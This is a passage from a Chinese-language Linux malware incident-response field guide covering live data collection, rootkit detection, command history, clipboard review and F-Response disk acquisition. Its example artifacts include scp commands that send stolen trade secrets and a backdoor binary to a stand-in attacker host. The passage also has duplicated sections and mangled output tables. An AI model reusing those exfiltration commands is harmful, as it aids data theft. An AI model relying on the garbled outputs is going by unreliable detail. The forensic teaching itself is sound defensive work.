-r----r-- 1 root root 2008-02-20 18:06 status
```

图 1.43——可疑 PID 5723 的 `/proc` 目录文件列表

* “`mem`”文件指的是每个进程的内容，但系统用户无法直接访问此文件。需要专门开发的工具来保留进程内存，正如本章早些“在现场 Linux 系统上保留内存”节所述，以及第 2 章和第 6 章中详细讨论的那样。

### 分析提示：取或丢失

`/proc` 系统是易失数据的虚拟表示，其本身也是易失的。创建目标系统的法医镜像不会捕获由 proc 系统引用的易失数据。因此，获取这些数据的最有效方法是将其从现场复制到外部存储设备上。

### 将开放端口与运行进程和程序关联起来

- 在识别开放端口和运行进程之外...

# 第 1 章 恶意软件事件响应

43

```bash
#### /media/cdrom/Linux-IR/netstat -ant
活动连接（服务器和已建立）
Proto Recv-Q Send-Q Local Address           Foreign Address State
PID/Program name
tcp       0       127.0.0.1:631        0.0.0.0:*               LISTEN
991/udp
tcp6       0       :::1633                ::*                    LISTEN
991/udp
udp       0       0.0.0.0:5353         0.0.0.0:*
780/avahi-daemon:r
udp       0       192.168.79.15:37616  192.168.79.1:53         ESTABLISHED
15096/http
udp       0       0.0.0.0:33285        0.0.0.0:*
780/avahi-daemon:r
udp       0       0.0.0.0:68             0.0.0.0:*
2537/dhclient
udp       0       0.0.0.0:60556        0.0.0.0:*
15096/http
tcp6       0       :::5353                ::*
```

图 1.45-使用 `netstat -ant` 命令确定哪个进程正在监听端口

- 最终，可以使用 `lsof` 命令找到与此疑进程关联的执行文件，如图 1.46 所示。该输出显示恶意软件 `http` 运行在 `/tmp/me` 目录。

```bash
#### /media/cdrom/Linux-IR/lsof -p 15096
COMMAND PID USER FD TYPE SIZE SIZE NODE
http 15096 victim cwd DIR 8,1 4096
52703/tmp/me
http 15096 victim rtd DIR 8 4096
http 15096 victim txt REG 8 612470
52708/tmp/me/http
http 39270/libn-libc-2.12.1.so victim mem REG 8 1421892
http 39338/libresolv-2.1.so victim mem REG 8 71432
http 15096 victim mem REG 8 9620
39344/libnss_mdns_4.so.2 victim mem REG 8 42575
http 39336/libnss_files-2.12.1.so victim mem REG 8 110884
http 15096 victim mem REG 8 9624
39246/lib-d-2.12.1.so victim mem REG 8 9624
http 15096 victim mem REG 8 220366
39334/libnss_dns_4.so 15096 victim u IPv4 46647 0t0
UDP _ubuntu.local/54912->192.168.79.1:domain
http 15096 victim 3u IPv4 45513 0t0
UDP *:60556
```

图 1.46-使用 `lsof` 命令显示 `http` 进程（EnergyMec 机器人）使用的文件和套接

除了提供开放端口的信息外

```bash
#### /media/cdrom/Linux-IR/fuser -u /tmp/me
/tmp/me: 5008c (victim) 5365c (victim)
```

图 1.47—使用 `fuser -u` 命令确定哪些进程（以及关联用户）正在访问特定目录 (`/tmp/me`)

## 调查考虑

- Rootkit（根内核）不监听特定端口，而是监控对受攻击系统上运行的任何合法服务的连接，并等待特定的网络连接模式，例如特定的源端口或对多个端口的顺序访问（又“端口敲门”）。当观察到预期的模式时，rootkit 会激活后门访问。通过这种方式，rootkit 很难将未经授权的门活动与对受攻击计算机服务的合法连接区分开。

### 打开的文件和依赖项

- 确定特定进程打开了哪些文件可以引导调查人员找到更多证据来源。

- 许多恶意软件程序，特别是键盘记录器、嗅探器、木洛马和其他数据收集程序，会在系统中的秘密文件中悄悄收集用户数据（如击键记录日志、用户凭据和其他敏感信息）。

- `lsof` 命令揭示了每个运行程序正在访问的文件和套接字，以及与每个进程关联的用户名。

- 嗅探器和键盘记录器通常将捕获的数据保存到日志文件中，`lsof` 命令可能会显示该日志存储的位置。

- 例如，在图 1.48 中，检查被 Adore rootkit 攻击的系统上打开的文件，可疑进程的 `lsof` 输出包含对“`/dev/tty/log`”的引用——应该检查日志文件。

- 此外，图 1.48 的输出显示“swapd”进程打开了一个终端 (`pts/8`)，这通常会与网络连接相关，但该进程似乎没有关联的端口。这种差异是 rootkit 隐藏操作信息的进一步迹象。

| COMMAND | PID | USER | FD | TYPE | SIZE | NODE | NAME |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| --- | --- | --- | --- | --- | --- | --- | --- |
| swapd/dev/log | 5723 | root | cwd | DIR | 8,5 | 1024 | 47005 |
| swapd | 5723 | root | rtd | DIR | 8,5 | 1024 | 2 |
| swapd/dev/log | 5723 | root | txt | REG | 8,5 | 15788 | 47033 |
| swapd | 5723 | root | mem | REG | 8,5 | 87341 | 65282 |
| swapd | 5723 | root | mem | REG | 8,5 | 42657 | 65315 |
| /lib/libns_files-2.12.1.so | 5723 | root | mem | REG | 8,5 | 139574 | 75482 |
| swapd | 5723 | root | 0u | CHR | 136,8 | | /dev/8 |
| swapd | 5723 | root | 1u | CHR | 136,8 | | /dev/8 |
| swapd | 5723 | root | 2u | CHR | 136,8 | | /dev/8 |
| swapd | 5723 | root | 3u | sock | 0,0 | | 10924 |

图 1.48-使用 `lsof` 命令由 swapd 进程使用的文件和套接

-`lsof` 的输出还显示了进程打开的端口和终端。使用选项 `lsof -i -n -P` 提供关联进程和网络连接的开放端口列表。

## 调查考虑

- 作为任何用于收集易失数据的命令，`lsof` 被 LKM root 破坏了。因此，对比系统内存转储的取证分析结果以确定现场数据收集期间不可见的项目。内存取证见第 2 章。

# Linux 系统恶意软件取证现场指南

### 识别运行的服务

许多恶意软件样本将服务的形式出现在目标系统上。

在 Linux 系统上，服务是在自己的会话中长时间运行的可执行应用程序；它们不需要用户交互。恶意软件可以服务的形式出现在受害者系统中，在后台静默运行，用户无感知。

- 在检查运行进程和端口时，通过获取概览，然后应用工具提取更详细的服务信息。

- 在调查运行服务时，收集以下信息：

- 服务名称

- 显示名称

- 状态

- 启动配置

- 服务描述

- 依赖关系

- 与服务关联的可执行程序

- 进程 ID

- 可执行程序路径

- 与服务关联的用户名

- 通过使用信任版本的 `chconfig` 使用 `-A`（所有服务）和 `-l`（列表）进行查询，获取目标系统运行服务的良好概览。

- 要识别运行服务，使用 `service` 命令查询目标系统，并过滤结果中的运行服务（用“+”符号表示）。

```bash
#### media/cdrom/linux-IR/service --all|grep
```

图 1.49-使用 `service` 命令查询运行服务

`service` 命令是大多数系统的原生，位于 `/usr/sbin/`；在收集所有现场数据时，应使用静态编译的 `service` 版本。

# 检查已加载模块

恶意软件可能作为内核模块加载到受攻击系统中。

- Linux 具有模块化设计，允许开发者通过编写有时称为驱动程序的模块来扩展操作系统的核心功能。

- 恶意软件可以利用某些 Linux 系统上的此功能隐藏信息并执行其他功能。

- 可以使用 `lsmod` 命令查看当前加载的模块，它显示存储在 `/proc/modules` 文件中的信息。

- 检查模块以判断它们执行的是合法功能还是恶意功能可能是挑战性的，但异常情况会显现。

## 调查考虑

入侵前后列模块的挑战在图 1.50 中所示，它显示了差异并指示 Adore LKM root 隐藏自己。当 `adore-ng.o` 内核模块

```
intruder# lsmod | head
Module Size Used by Not tainted
udf 98144 1 (autoclean)
vfat 13084 0 (autoclean)
fat 38712 0 [vfat]
ide-cd 33608 1 (autoclean)
<edited for length> intruder adore-ng.o
intruder# lsmod | head
Module Size Used by Not tainted
adore-ng 18944 0 (unused)
udf 98144 1 (autoclean)
vfat 13084 0 (autoclean)
fat 38712 0 [vfat]
ide-cd 33608 1 (autoclean)
<edited for length> intruder cleaner.o
intruder# lsmod | head
Module Size Used by Not tainted
cleaner 608 0 (unused)
udf 98144 1 (autoclean)
vfat 13084 0 (autoclean)
fat 38712 0 [vfat]
ide-cd 33608 1 (autoclean)
```

图 1.50–安装 Adore root 前后的模块列表

当模块加载时，它会出现在 `lsmod` 的加载模块输出中，但一旦入侵者使用 `insmod` 加载了 Adore rootkit 的 "cleaner.o" 组件，“adore-ng" 条目就不再可见了。此外，入侵者可以使用 `rmod` 命令删除 "cleaner.o" 模块来掩盖踪迹，使得系统上的已加载模块列表与安装 rootkit 之前并无二致。

- 因为内核 rootkit 可以隐藏自己且在模块列表中不可见，因此，对目标系统的内存转储进行取证分析至关重要，以确定是否存在在现场数据采集期间不可见的恶意软件。内存取证将在第 2 章中进行介绍。

## 收集命令历史

- 在受感染计算机上执行的命令可能会列在所用任何用户账户的命令历史中。

- 许多 Linux 系统为每个用户账户维护命令历史，可以使用 `history` 命令显示。这些信息也可以在稍后从与每个用户账户相关的命令历史文件中获取。

- Linux 上的 Bash Shell 通常在每个用户账户下的一个名为 ".bash_history" 的文件中维护命令历史。其他 Linux 和 UNIX Shell 将历史存储在每个账户名为 ".history" 和 ".sh_history" 的文件中。如果存在，请检查入侵者使用的账户的命令历史。

- 命令历史可以为攻击者在系统上的活动提供深度见解和背景。例如，在图 1.51 中，历史记录显示与贸易秘密相关的文件和目录被删除。

- 虽然命令历史文件没有记录特定命令执行的日期，但数字调查人员可能通过关联其他来源的信息（例如系统上文件的最后访问时间戳）来确定某些事件的日期时间。

```
tar cvf trade-secrets.tar.gz trade-secrets/
scp trade-secrets.tar.gz baduser@attacker.com:
srm trade-secrets.tar.gz
ls
cd
ls
ls Documents
```

图 1.51–命令历史示例内容

## 第1 章 恶意软件事件响应

来自内存转储的命令历史（具有时间戳，将在第 2 章中进一步讨论），或显示从受感染系统进行传输的网络层级日志。

- 例如，安全删除程序的最后访问日期可能显示该程序最后执行的时间，这可能与命令历史文件中的条目相关联。执行此类分析时要小心，因为 Linux 和 UNIX 系统上的各种活动都会更新最后访问日期。

## 识别挂载和共享驱动器

- 网络上的其他位置可能包含与恶意软件事件相关的信息。

为了简化管理和备份，许多组织不再将用户文件存储在本地，而是使用 Linux 系统将家目录、电子邮件和其他远程数据存储在集中式服务器上。

关于挂载驱动器的信息可以在 "/proc/mounts" 和 "/etc/fstab" 中找到，使用 `df` 和 `mount` 命令也可以相同的信息。

图 1.52 显示了远程服务器上的两个挂载共享，并已加粗显示。

| 文件系统 | 挂载点 | 选项 | Dump | Pass |
| :--- | :--- | :--- | :--- | :--- |
| /media/cdrom/Linux-IR/cat /etc/fstab | ext2 | defaults | 1 | 1 |
| /dev/hda1 | / | ext2 | defaults | 1 | 2 |
| /dev/hda7 | /tmp | ext2 | defaults | 1 | 2 |
| /dev/hda5 | /usr | ext2 | defaults | 1 | 2 |
| /dev/hda6 | /var | | | |
| /dev/hda8 | swap | swap defaults | 0 | 0 |


| `/dev/fd0` | `/media/floppy` | ext2 | user,nauto | 0 | 0 |

| `/dev/hdc` | `/media/cdrom` | iso960 user,nauto,ro | 0 | |

| none | `/dev/pts` | gid=t,mode=620 | 0 | |

| none | `/dev/proc` | `/home` | defaults | 0 | 0 |

| `server13:/home/accts/accts` | | nfs | | |

| bg,hard,int,rsize=8192,wsize=8192 | | | | |

| `server13:/var/pool/mail` | `/var/pool/mail` | nfs | | |

> 图 1.52—通过通过路径为 `/etc/fstab` 的目录列出的系统挂载共享列表

- 相反，恶意软件可以被放置在通过 Samba、NFS 或服务在网络上共享的系统中。由 NFS 服务导出的共享配置在 `"/etc/exports"` 文件中。

Samba 配置文件默认位于 `"/etc/samba/smb.conf"`，显示了任何导出的共享。应与系统管理员一起审查共享和挂载驱动器，以确定是否存在异常条目。

## 确定计划任务

- 恶意软件可能被安排定期重启，以便在重启后在受感染系统中持久化。

- Linux 上的计划任务使用 `at` 命令或 `crontabs` 配置。

- 运行 `at` 命令将显示计划进程，相关的队列通常位于 `/var/spool/cron/atjobs` 和 `/var/spool/cron/atspell` 目录。

- 检查系统上的 `crontab` 文件也将揭示计划任务。通常情况下，Linux 系统有一个系统 crontab 文件（例如 `/etc/crontab`），某些系统具有每日、每小时、每周和每月配置（例如 `/etc/cron.daily`、`/etc/cron.hourly`、`/etc/cron.weekly` 和 `/etc/cron.monthly`）。

- 此外，可以使用用户账户创建 `crontabs`。使用特定用户账户计划的任务作业队列可以在 `/var/spool/cron/crontabs` 下的用户账户子目录中找到。

## 收集剪贴板内容

- 如果潜在受感染系统的感染媒介未知，剪贴板内容可能提供有关攻击性质的线索，特别是当攻击者是“内部人员”并复制了部分文本粘贴到工具或攻击字符串中时。

- 剪贴板内容可能包含：

- 域名

- IP 地址

- 电子邮件地址

- 用户名和密码

- 主机名

- 即时通讯器聊天或电子邮件内容

- 攻击命令

- 其他识别攻击手段或目的的珍贵人工制品

使用 `xclip` 检查目标对象的剪贴板内容，它会收集并显示剪贴板内容，如图 1.53 所示。在此示例中，剪贴板包含一个安全拷贝命令，用于将后门客户端二进制文件（revclient-666）传输到攻击者控制的主机。

```
#### /media/cdrom/Linux-IR/xclip -o
scp /home/victimuser/evils/revclient-666 baduser@attacker.com:
```

图 1.53–使用 `xclip -o` 命令收集的剪贴板内容

## 从现场 Linux 系统收集非易失性数据

- 历史上，数字调查人员被指示创建硬盘的取证副本，并被反对从现场系统收集文件。然而，从可能涉及的系统中获取所有数据并不总是可行的。特别是在涉及大量系统的事件响应情况下，从每个系统获取特定文件以确定哪些受影响可能是有效的。从现场系统选择性获取文件而不是创建取证副本的决定必须谨慎做出，因为任何操作都会改变现场。

## 现场 Linux 系统存储媒介的取证复制

- 在某些情况下（例如高可用系统），关闭系统进行取证复制可能是不可行的。

- 对于需要全面分析的系统，在目标系统的取证副本上执行取证任务。

- 如果无法关闭系统，请在运行时创建取证副本。

- 图 1.54 显示的命令保存到磁盘介质的文件，并带有用于完整性的 MD5 哈希和记录收集过程的审计日志。

```
#### /media/cdrom/Linux-IR/dc3dd if=/dev/hda
of=/media/IR/victim1.dd log=/media/IR/audit/victim1.log
hash=md5 hlog=/media/IR/audit/victim1.md5
```

图 1.54-使用 `dc3dd` 命令对受感染系统的硬盘进行取证复制

- 在获取取证副本时，验证是否获取了整个硬盘。

- 一种方法是将 `fdisk -l --sectors` 显示的扇区数（加粗图 1.55 中）与取证副本中获取的数量进行比较。请注意，某些 Linux 上的 `fdisk` 使用不同的命令语法，可以使用 `fdisk -lu` 命令显示扇区数。

- 然而，在某些情况下，`fdisk` 无法检测所有扇区，例如当存在主机保护区域 (`HPA`) 或设备配置覆盖 (`DCO`) 时。

```
#### /media/cdrom/Linux-IR/fdisk -l -u=sectors
Disk /dev/hda: 80.0 GB, 8002636186 bytes
16 heads, 63 sectors/track, 155061 cylinders, total 156301488 sectors
Units = sectors of * 512 = 512 bytes

| Device | Start | End | Blocks | Id | System |
| :--- | :--- | :--- | :--- | :--- | :--- |
| /dev/hda * | 63 | 52429103 | 26214520+ | 7 | HPFS/NTFS |
| /dev/hdb2 | 52429104 | 83891428 | 15731163 | 83 | Linux |

Partition 2 does not end on cylinder boundary.
/dev/hda3 | 83891430 | 104371343 | 10239957 | 7 | HPFS/NTFS
```

图 1.5—使用 `fdisk -l -u=sectors` 在存绪系统上列出分区

- 因此，在获取存绪系统的取证副本时，需要获取其配置（例如使用 `dmesg`、来自 The SleuthKit 的 `disk_stat`，25 或 `hdparm`^26）、硬盘以及任何关于扇区数量的在线文档。

- 请注意，保留 `fdisk` 显示的各个独立分区可能有助于分析，但如果需要，也可以从完整磁盘中提取这些分区。27

- 较新版本的 The SleuthKit 允许用户在完整磁盘镜像中选择特定的分区。

# 在存绪 Linux 系统上对存储媒体进行远程获取

> 可以使用 F-Response 从目标系统远程获取硬盘硬盘。

F-Response 是一种事件响应框架，它实现了互联网小型计算机系统接口（被称为“iSCSI”）228 发起程序，用于为网络计算机的完整物理磁盘（磁盘）提供只读访问。29

- F-Response 有四个版本（Field Kit、Consultant、Enterprise 和 TACTICAL），它们在部署方法上有所不同，但可以将远程系统驱动器作为本地挂载驱动器进行访问。

25 关于 The SleuthKit 的更多信息，请访问 http://www.sleuthkit.org/

26 关于 `hdparm` 的更多信息，请访问 http://sourceforge.net/projects/hdparm/

27 Carrier, B., “Detecting Host Protected Areas (HPA) in Linux,” The Sleuth Kit Informer, Issue #17, November 15, 2004, available at http://www.sleuthkit.org/informer/sleuthkit-informer-17.html.

28 http://www.faqs.org/rfcs/rfc3720.html.

# 第 1 章 恶意软件事件响应

- F-Response 灵活灵活且“与供应商无关”，这意味着当连接到目标系统时，可以使用任何工具来获取目标系统硬盘和物理内存（目前仅支持 Windows）的镜像。

- F-Response Field Kit 和 TACTICAL 通常用于存绪响应，特别是在目标系统位于第三方地点，且在事件发生前未部署 F-Response Consultant 发起程序或 Enterprise 版的情景。

- F-Response Field Kit 需要单个 USB FOB 密狗和 Field Linux (`f-response-fk.lin`)，两者都在目标系统上启动。

- 相反，允许数字调查人员利用 F-Response 结果的取证系统只需安装并调用 iSCSI 发起程序。Microsoft iSCSI 发起程序可以安装在 Windows 取证系统上，而 Open-iSCSI 可以安装在 Linux 取证系统上。

- F-Response TACTICAL 使用可区分的配对 FOB 部署并带有自动-iSCSI 信标，将在下节和附录框中进行讨论。

- 要使用 F-Response Field Kit 访问远程目标系统，请将 USB FOB 密狗连接到目标系统并从命令行执行 F-Response，如图 1.56 所示。`u` 和 `-p` 选项分别指定会话的用户名和密码。

```
root@home:/victim-system/Desktop# /f-response-fk-lin -u malwarelab -p password123456
-Response Field Kit (Linux Edition) Version 4.00.02
-Response Disk: /dev/sda (41943040 sectors, 512 sector size)
20480 MB blocked storage on F-Response Disk:sda
```

图 1.56—在目标 Linux 系统上执行 F-Response Field Kit

- 从目标系统上调用 F-Response Field Kit 后，从你的取证系统识别并连接到该系统。在本节中，我们将讨论如何从 Linux 和 Windows 取证系统进行获取，因为许多数字调查人员选择使用他们的 Windows 取证系统来执行此任务。

30 关于 Microsoft iSCSI 发起程序的更多信息，请访问 http://technet.microsoft.com/en-us/library/dd878522%28WS.10%29.aspx;; http://www.microsoft.com/download/en/details.aspx?id=18986.

31 关于 Open-iSCSI 的更多信息，请访问 http://www.open-iscsi.org。

## 从 Linux 取证系统获取

使用 F-Response Field Kit 连接到 Windows 取证系统是常见的做法，通过图形化 iSCSI 发起程序实现。

- 在你的本地取证系统上，调用 iSCSI 发起程序，选择“Discovery”选项卡，并将目标系统添加目标，如图 1.59 所示。

32 关于 Open-iSCSI 的安装和配置（特别是配合 F-Response 使用），F-Response 的人员在他们的博客上提供了指导：http://www.f-response.com/index.php?option=com_content&view=article&id=51%3AAccessing-f-response-using-linux&catid=%3Alog-posts&item=55.

33 关于 F-Response 的更多平台要求和培训视频，请访问 http://www.f-response.com/index.php?option=com_content&view=article&id=165&itemid=83.

# 第 1 章 恶意软件事件响应

- 使用 F-Response 本地挂载远程系统硬盘为数字调查人员提供了取证获取整个硬盘或逻辑选择数据的灵活性。

## 调查考量

- 存储于 `/dev` 目录和 `/proc` 文件系统中的易失性信息无法通过 F-Response 访问。回想 `/dev` 和 `/proc` 是本地 Linux 机器上的动态内存存储，这些目录包含的信息仅是指向内存结构的符号链接。因此，通过 F-Response 挂载目标系统的物理磁盘无法让数字调查人员访问这些结构。

## Linux 系统恶意软件取证实战指南

- 选择“Advanced（高级）”选项，并提供在目标系统上 F-Response 远程配置时相同的用户名和密码据（图 1.60）。



图 1.60—通过 iSCSI 启动器进行身份验证以获取目标系统

- 验证通过后，目标系统将显示为一个目标设备。从目标列表中选择目标硬盘（需要重新身份验证）并连接到目标系统；连接状态将显示在目标列表中（图 1.61）。



图 1.61—连接到目标系统

# 第 1 章 恶意软件事件响应

- 一旦通过 F-Response 连接到目标系统，目标系统的硬盘可以被识别为连接到取证员系统的物理设备——但不会表现为已挂载卷。这是因为 ext3 和 ext4 文件系统是大多数 Linux 发行版的默认系统，Windows 无法原生读取.³34

- 要确认目标系统的物理磁盘为已连接设备，请在取证员系统的“磁盘管理”加载项中识别该磁盘.³35如图 1.62 所示，目标系统驱动将显示为具有无法识别文件的物理磁盘。


图 1.62—在“磁盘管理”加载项中识别目标系统驱动

尽管目标系统的物理磁盘无法挂载和访问，但可以对其进行取证获取。要获取磁盘镜像，只需在取证员系统上使用选择的取证获取工具，并将目标系统驱动作为镜像源。如图 1.63 所示，使用 FTK Imager 识别并选择了所定的 Linux 系统驱动作为源驱动.³36



图 1.63—使用 FTK Imager 获取目标系统驱动

> ³⁴ Ext2/ext3 文件系统可以使用多种工具在 Windows 上进行读取，例如开源工具 ext2read，http://sourceforge.net/projects/ext2read。

> ³⁵ “磁盘管理”加载项位于 Windows XP、Windows 2003 和 Windows Vista 的“管理工具>计算机管理>存储>磁盘管理”中。在 Windows 7 中，可以通过“控制面板>系统和安全>管理工具>计算机管理”然后选择“存储 磁盘管理”，或右键点击“我的电脑——管理”。

> ³⁶ 有关更多关于 FTK Imager 的信息，请访问 https://ad-pdf.s3.amazonaws.com/FTKImager_UserGuide.pdf；以及 http://accessdata.com/support/downloads。

## Linux 系统恶意软件取证实战指南

## F-Response 战术版 (TACTICAL)

- F-Response TACTICAL 是一种用于现场响应的精简解决方案，它使用独特的双加密/存储设备解决方案，能够让数字调查员在对目标网络拓扑了解有限的情况下，快速且无缝地进行远程取证获取。

- 双加密狗——一个用于目标系统，一个用于取证员系统（如图 1.64 所示）——使用 iSCSI “自动信标”，通过对工作将远程目标系统连接到数字调查员的检查系统。


图 1.64—F-Response TACTICAL“目标”和“取证员”加密狗

- 一旦调用，TACTICAL Subject 会在默认的 iSCSI 端口 (`3260`) 上作为可用的 iSCSI 目标发出信标。相反，一旦执行 TACTICAL Examiner，将利用 Open-iSCSI 套件（需要预先安装）来实现与远程 TACTICAL 目标系统的连接。

- TACTICAL 直接从加密狗运行，目标系统上不需要任何安装。与 F-Response 的其他版本一样，除了 Linux 系统外，TACTICAL 还可以获取 Windows 和 Macintosh OS X 系统。

- 当 TACTICAL 加密狗插入目标系统时，它包含“TACTICAL Subject”目录，其中包含适用于 Windows、Linux 和 Macintosh OS X 系统的执行文件。

# 第 1 章 恶意软件事件响应

- - 如图 1.65 所示，执行 Linux 可执行文件 (`f-response-tacsub-lin`)，将调用 F-Response，目标系统作为 iSCSI 目标发出信标，并对整个磁盘具有只读访问权限。

```
root@ubuntu:/media/SUBJECT/TACTICAL Subject# ./f-response-tacsub-lin
F-Response TACTICAL (Linux Edition) Version 4.00.02
F-Response Disk: /dev/sdx (41943040 sectors, 512 sector size)
20480 MB write blocked on F-Response Disk
F-Response Disk: /dev/sdb (3947520 sectors, 512 sector size)
1927 MB write storage on F-Response Disk
```

图 1.65—在目标系统上执行 F-Response


# 第 1 章 恶意软件事件响应

- 选择“Advanced（高级）”选项，并提供在目标系统上 F-Response 远程配置时使用的相同的用户名和密码据（图 1.60）。


图 1.60—通过 iSCSI 启动器进行身份验证以获取目标系统

- 验证通过后，目标系统将显示为一个目标设备。从目标列表中选择目标硬盘（需要重新身份验证）并连接到目标系统；连接状态将显示在目标列表中（图 1.61）。


图 1.61—连接到目标系统

一旦通过 F-Response 连接到目标系统，目标系统的硬盘可以被识别为连接到取证员系统的物理设备——但不会表现为已挂载卷。这是因为 `ext3` 和 `ext4` 文件系统是大多数 Linux 发行版的默认系统，Windows 无法原生读取.³³⁴

要确认目标系统的物理磁盘为已连接设备，请在取证员系统的“磁盘管理”加载项中识别该磁盘.³³⁵如图 1.62 所示，目标系统驱动将显示为具有无法识别文件的物理磁盘。


图 1.62—在“磁盘管理”加载项中识别目标系统驱动

尽管目标系统的物理磁盘无法挂载和访问，但可以对其进行取证获取。要获取磁盘镜像，只需在取证员系统上使用选择的取证获取工具，并将目标系统驱动作为镜像源。如图 1.63 所示，使用 `FTK Imager` 识别并选择了所定的 Linux 系统驱动作为源驱动.³³⁶


图 1.63—使用 FTK Imager 获取目标系统驱动

> ³⁴ `Ext2/ext3` 文件系统可以使用多种工具在 Windows 上进行读取，例如，开源工具 `ext2read`，http://sourceforge.net/projects/ext2read。

> ³⁵ “磁盘管理”加载项位于 Windows XP、Windows 2003 和 Windows Vista 的“管理工具>计算机管理>存储>磁盘管理”中。在 Windows 7 中，可以通过“控制面板>系统和安全>管理工具>计算机管理”然后选择“存储 磁盘管理”，或右键点击“我的电脑——管理”。

> ³⁶ 有关更多关于 FTK Imager 的信息，请访问 https://ad-pdf.s3.amazonaws.com/FTKImager_UserGuide.pdf；以及 http://accessdata.com/support/downloads。

## Linux 系统恶意软件取证实战指南

## F-Response 战术版 (TACTICAL)

- F-Response TACTICAL 是一种用于现场响应的精简解决方案，它使用独特的双加密/存储设备解决方案，能够让数字调查员在对目标网络拓扑了解有限的情况下，快速且无缝地进行远程取证获取。

- 双加密狗——一个用于目标系统，一个用于取证员系统（如图 1.64 所示）——使用 iSCSI “自动信标”，通过对工作将远程目标系统连接到数字调查员的检查系统。


图 1.64—F-Response TACTICAL“目标”和“取证员”加密狗

- 一旦调用，TACTICAL Subject 会在默认的 iSCSI 端口 `3260` 上作为可用的 iSCSI 目标发出信标。相反，一旦执行 TACTICAL Examiner，将利用 Open-iSCSI 套件（需要预先安装）来实现与远程 TACTICAL 目标系统的连接。

- TACTICAL 直接从加密狗运行，目标系统上不需要任何安装。与 F-Response 的其他版本一样，除了 Linux 系统外，TACTICAL 还可以获取 Windows 和 Macintosh OS X 系统。

- 当 TACTICAL 加密狗插入目标系统时，它包含“TACTICAL Subject”目录，其中包含适用于 Windows、Linux 和 Macintosh OS X 系统的执行文件。

如图 1.65 所示，执行 Linux 可执行文件 `f-response-tacsub-lin`，将调用 F-Response，目标系统作为 iSCSI 目标发出信标，并对整个磁盘具有只读访问权限。

```
root@ubuntu:/media/SUBJECT/TACTICAL Subject# ./f-response-tacsub-lin
F-Response TACTICAL (Linux Edition) Version 4.00.02
F-Response Disk: /dev/sdx (41943040 sectors, 512 sector size)
20480 MB write blocked on F-Response Disk
F-Response Disk: /dev/sdb (3947520 sectors, 512 sector size)
1927 MB write storage on F-Response Disk
```

图 1.65—在目标系统上执行 F-Response

## LINUX 系统恶意软件取证实战指南

```
# /media/cdrom/Linux-IR/fdisk -lu

<为了简便节省略>
| Device | Start | End | Blocks | Id | System |
| /dev/sda * | 2048 | 4010592 | 2008518 | 83 | Linux |
| /dev/sdb2 | 4010832 | 4194096 | 916481 | 5 | Extended |
| /dev/sdc2 | 4010832 | 4194096 | 916480 | 82 | Linux swap / Solaris |

Disk /dev/sdb: 21.5 GB, 2147483680 bytes
255 heads, 63 tracks, 2610 cylinders, total 419430430 sectors
扇区大小 (逻辑/物理): 512 bytes / 512 bytes
I/o 大 (最小/最优): 512 bytes / 512 bytes
磁盘标识符: 0x00e8ed8a
```

图 1.1-使用 `fdisk` 命令识别 TICAL 物理磁盘

## 调查考虑因素

- 带有 `ext4` 文件系统的系统物理磁盘虽然在取证系统上可以被识别为设备，但无法在 `/media` 目录下挂载或访问。

## 运行中的 Linux 系统上特定数据的取证保护

- 某些系统由于太大而无法完整复制，或者仅包含有限的相关信息。

- 当无法对目标系统创建取证副本时，可能需要从运行的系统中选择性地保护若干文件。通过遵循一致的方法论，并详细记录从运行系统中获取单个文件时采取的每一步操作，可以降低错误风险，并使数字调查人员能够为证据辩做好准备。

- Linux 系统上的大多数配置和日志数据存储在文本文件中，与 Windows 系统不同，后者将某些数据存储在专有格式中（例如注册表、事件日志）。然而，不同的 Linux 系统将信息存储在不同的位置，这使得收集所有可用来源变得更加困难。本节将讨论大多数 Linux 系统上存在的、最可能包含与恶意软件事件相关的信息。

## 评估安全配置

- 安全漏洞可能会揭示恶意软件是如何被放置在受损系统上的

确定系统是否经过良好的安全保护有助于取证人员评估主机被滥用的风险水平。

- 网络安全中心（Center for Internet Security）拥有一最全面的 Linux 系统安全评估指南之一，并为多个版本的 Linux 提供了自动化安全评估脚本。

## 已评估的信任主机关系

与信任主机的连接安全性较低，可能被恶意软件/入侵者利用以获得未经授权的访问。

本节回顾了受损系统与网络上其他系统之间的信任关系。

- 例如，某些恶意软件会传播到共享账户或目标为受损系统 `"/etc/hosts"` 文件中列出的系统。

- 此外，某些恶意软件或入侵者会重新配置受损系统上的信任关系，以允许来自不可信主机的连接。例如，在系统的 `"/etc/hosts.equiv"` 或 `"/etc/hosts.lpd"` 中放置 `"-u"`（加号）条目和不可信主机名，会导致受损计算机允许来自不可信计算机的连接。还可以配置单个用户账户，因此数字调查人员应在这些文件中寻找异常的信任关系，特别是 `root`、`ucp`、`ftp` 和其他系统账户。

- 在一个案例中，对与 `root` 账户相关的 `.hosts` 文件进行检查，发现其被配置为允许任何人从任何地方连接（它包含 `+-`）。这种宽松的配置允许恶意软件使用 `rexec` 命令在系统上执行命令，而无需提供密码。

- 此外，Linux 通过 X Server 服务提供了远程桌面功能。允许与目标系统建立远程桌面会的主机配置在 `"/etc/X0.hosts"` 或 `/etc/X?.hosts` 中（其中 `"?"` 是显示数字），以及单个用户账户的 `".Xauthority"` 文件中。

`http://www.cisecurity.org`.

- 此外，SSH 可以配置为在交换授权的公加密密钥时允许远程系统无密码连接。带有其加密密钥的信任服务器列表存储在每个用户账户主目录下的 `"authorized_keys"` 文件中。

